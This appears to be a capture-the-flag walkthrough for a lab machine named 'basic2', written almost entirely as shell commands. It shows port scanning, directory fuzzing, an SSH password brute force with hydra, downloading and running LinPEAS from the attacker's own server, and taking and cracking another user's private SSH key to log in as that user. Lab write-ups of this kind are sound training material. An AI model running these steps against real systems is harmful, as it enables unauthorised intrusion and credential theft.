 10.10.162.125


### open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

### ping

```
$ ping 10.10.159.226
```


### nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

### login to user through ssh
```
$ ssh jan@10.10.162.125
```

### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

### found possible private SSH keys 
/home/kay/ .ssh/id_rsa

### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

### list files
```
jan@basic2:/home/kay$ ls
```

found pass.bak

### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

### found id_rsa

### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

### save ssh key
```
$ mousepad kay_id_rsa
```


### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


### chmod 
```
$ chmod 600 kay_id_rsa
```

### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

### list down files
```
kay@basic2:~$ ls
```

### print pass.bak
```
kay@basic2:~$ cat pass.bak
```














